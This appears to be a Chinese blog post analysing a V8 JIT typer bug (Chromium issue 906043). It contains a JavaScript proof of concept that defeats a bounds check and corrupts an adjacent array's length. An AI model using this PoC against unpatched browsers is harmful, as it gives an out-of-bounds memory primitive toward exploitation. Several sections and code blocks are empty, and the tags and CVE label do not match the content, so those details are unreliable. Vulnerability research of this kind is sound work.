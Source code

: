 ```yaml
---
layout:     post
title:      "V8引擎CVE-2016-5198漏洞分析"
subtitle:   ""
date:       2019-09-01 10:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - Android
    - NDK
    - Hook
    - arm64
    - inline hook
    - native hook
    - LTS
---
```


> 本文为本博客V8系列第五篇。

## 漏洞基本信息

[漏洞信息页面](https://bugs.chromium.org/p/chromium/issues/detail?id=906043)
[漏洞修复代码](https://chromium.googlesource.com/v8/v8/+/4e3a17d0408627517d4a81b3bf5daf85e416e9ac/test/mjsunit/regress/regress-crbug-906043.js)

根据漏洞基本信息可准备分析环境，先切换至漏洞修复前版本。
```
git checkout 
gclient sync
```

对源码进行编译。
```

```

## PoC

```javascript
// Flags: --allow-natives-syntax
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 21] = 1.39064994160909e-309;  // 0xffff00000000
  a1[(x >> 16) * 41] = 8.91238232205e-313;  // 0x2a00000000
}
var a1, a2;
var a3 = [1.1,2.2];
a3.length = 0x11000;
a3.fill(3.3);
var a4 = [1.1];
for (let i = 0; i < 10000; i++) fun(...a4);
// %OptimizeFunctionOnNextCall(fun);
fun(...a3);
for (i = 0; i < a2.length; i++){
    console.log(a2[i]);
}
console.log(a2.length);
```

与以往POC引起崩溃不同，本次POC执行后V8引擎并不会崩溃，而是发现数组a2的长度存在异常。根据这段JS的含义，a2应该自始至终都是一个长度为16的数组。而POC最后对a2的内容和长度进行输出时发现a2在确保原有的16个元素数值正确以外(a2[0]=1.1，a2[1-15]=undefined)，还额外输出了26个不明元素，且长度被改为了42。

该运算结果虽未引起内存崩溃但由于与JS本身语法运行规则不符，故存在漏洞。

## 漏洞成因

#### 调试分析

使用GDB对V8进行调试，

#### 本质原因

V8在typer phase里对SpeculativeNumberShiftRight的range进行计算。

由于在typer phase还不会对Load处理，于是在第一次对NumberShiftRight进行range analysis的时候，会将其范围直接当做int32的最大和最小值。

于是在第一次对NumberShiftRight进行range analysis之后得到

然后在typer lowering phase里将JSCreateArray reduce成ArgumentsLength,并计算其范围。

然后在load elimination phase里将多余的LoadField remove，直接替换成真正的值，ArgumentsLength。

于是在simplified lowering phase里，为了修正这个SpeculativeNumberShiftRight的范围，于是再次对其进行typer计算。

由于这个结果被作为数组的index，所以最终在VisitCheckBounds里，会比较这个范围和数组最大的长度，如果始终index小于数组的length，那么就会将其remove掉。



#### 结论

## 漏洞利用